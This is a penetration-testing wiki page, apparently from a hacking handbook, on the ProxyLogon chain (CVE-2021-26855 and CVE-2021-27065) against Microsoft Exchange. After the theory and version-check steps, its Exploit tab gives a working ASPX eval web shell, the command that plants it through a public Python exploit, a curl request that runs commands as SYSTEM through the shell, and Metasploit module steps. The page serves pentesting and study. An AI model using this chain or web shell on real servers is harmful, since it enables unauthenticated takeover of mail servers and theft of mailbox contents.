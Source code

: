 ```yaml
---
description: Chained CVE-2021-26855 and CVE-2021-27065
---
```


# ProxyLogon

## Theory

ProxyLogon is the formally generic name for [CVE-2021-26855](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26855), a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the authentication and impersonating as the admin. We have also chained this bug with another post-auth arbitrary-file-write vulnerability, [CVE-2021-27065](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-27065), to get code execution. All affected components are **vulnerable by default**!\
As a result, an **unauthenticated** attacker can **execute arbitrary commands** on Microsoft Exchange Server through an **only opened 443 port**!

**CVE-2021-26855** : Pre-auth SSRF\
This is a Server-Side Request Forgery (SSRF) vulnerability in the Exchange Server that allows remote attackers to gain admin access once exploited. This can be exploited by sending a specially crafted web request to a vulnerable Exchange Server. The web request contains an XML SOAP payload directed at the Exchange Web Services (EWS) API endpoint. This request bypasses authentication using **specially crafted cookies**. This vulnerability, combined with the knowledge of a victim’s email address, means the attacker can exfiltrate all emails from the target’s Exchange mailbox.

**CVE-2021-27065** : Post-auth Arbitrary-File-Write\
Thanks to the super SSRF allowing us to access the Backend without restriction. The next is to find a RCE bug to chain together. Here we leverage a Backend internal API `/proxyLogon.ecp` to become the admin. The API is also the reason why we called it ProxyLogon.\
Because we leverage the Frontend handler of static resources to access the ECExchange Control Panel (ECP) Backend, the header `msExchLogonMailbox` , which is a special HTTP header in the ECP Backend, will not be blocked by the Frontend. By leveraging this minor inconsistency, we can specify ourselves as the SYSTEM user and generate a valid ECP session with the internal API.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can use the [http-vuln-exchange.nse](https://github.com/GossiTheDog/scanning/blob/main/http-vuln-exchange.nse) nmap script to scan a target

```bash
nmap -p80,443 --script="http-vuln-exchange.nse" $IP

443/tcp open  https
    |_http-vuln-proxylogon: (15.1.2176) Exchange 2016 potentially vulnerable, check latest security update is applied (Exchange 2016 CU18 or CU19 installed)
```

If we have local access to the target running exchange, we can check it version using the following powershell command:

```powershell
#Method 1
PS> GCM exsetup |%{$_.Fileversioninfo}

#Method 2
PS> (Get-Command ExSetup.exe).FileVersionInfo.ProductVersion

ProductVersion   FileVersion      FileName                                                                             
--------------   -----------      --------                                                                             
15.02.0858.005   15.02.0858.005   C:\Program Files\Microsoft\Exchange Server\V15\bin\ExSetup.exe
```

We can now search for the exact Microsoft Exchange product version using [this microsoft link](https://learn.microsoft.com/fr-fr/exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019).\
\
Following versions are vulnerable:

| Version            | Vulnerable ProductVersion |
| ------------------ | ------------------------- |
| Exchange 2013      | < 15.00.1497.012          |
| Exchange 2016 CU18 | < 15.01.2106.013          |
| Exchange 2016 CU19 | < 15.01.2176.009          |
| Exchange 2019 CU7  | < 15.02.0721.013          |
| Exchange 2019 CU8  | < 15.02.0792.010          |
{% endtab %}

{% tab title="Exploit" %}
We can use this [python exploit](https://github.com/praetorian-inc/proxylogon-exploit) to abuse ProxyLogon. First let's create a webshell.

{% code title="webshell.aspx" %}
```aspnet
<script language="JScript" runat="server">
function Page_Load(){
eval(Request["kxpprfgvnosz"],"unsafe");
}
</script>
```
{% endcode %}

Run the exploit

```bash
python exploit.py --frontend https://172.16.59.7 --backend exchange.hafnium.local \
  --email administrator@hafnium.local \
  --webshell webshell.aspx \
  --path 'C:\\Program Files\\Microsoft\\Exchange Server\\V15\\FrontEnd\\HttpProxy\\ecp\\auth\\o.aspx'
```

{% hint style="info" %}
Exploitation requires knowledge of the frontend Exchange server URL (e.g. `https://exchange.example.org`) and an email address for a user on the system. The admin SID and backend can be leaked from the server.
{% endhint %}

We can now access our webshell:

```bash
$ curl -s -k https://172.16.59.7/ecp/auth/o.aspx \
  -d 'kxpprfgvnosz=Response.Write(new ActiveXObject("WScript.Shell").Exec("cmd /c whoami").StdOut.ReadAll());' | head -n 1

nt authority\system
```
{% endtab %}

{% tab title="Exploit - Metasploit" %}
A Metasploit module is available to exploit ProxyLogon

```bash
msf > use exploit/windows/http/exchange_proxylogon_rce
msf exploit(exchange_proxylogon_rce) > show targets
    ...targets...
msf exploit(exchange_proxylogon_rce) > set TARGET < target-id >
msf exploit(exchange_proxylogon_rce) > show options
    ...show and set options...
msf exploit(exchange_proxylogon_rce) > exploit
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://proxylogon.com/" %}

{% embed url="https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html" %}
